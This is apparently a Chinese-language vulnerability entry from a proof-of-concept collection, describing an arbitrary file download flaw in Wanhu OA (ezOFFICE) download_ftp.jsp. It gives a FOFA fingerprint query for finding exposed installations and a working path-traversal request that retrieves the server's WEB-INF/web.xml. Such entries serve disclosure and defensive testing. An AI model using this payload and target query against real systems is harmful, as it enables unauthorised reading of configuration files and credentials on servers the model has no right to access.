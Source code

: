 # 万户OA download_ftp.jsp 任意文件下载漏洞

## 漏洞描述

万户OA download_ftp.jsp文件存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

```
万户OA
```

## FOFA

```
app="万户网络-ezOFFICE"
```

## 漏洞复现

产品页面

![image-20220520132512473](./images/202205201325574.png)

验证POC

```
/defaultroot/download_ftp.jsp?path=/../WEB-INF/&name=aaa&FileName=web.xml
```

![image-20220520132537562](./images/202205201325636.png)

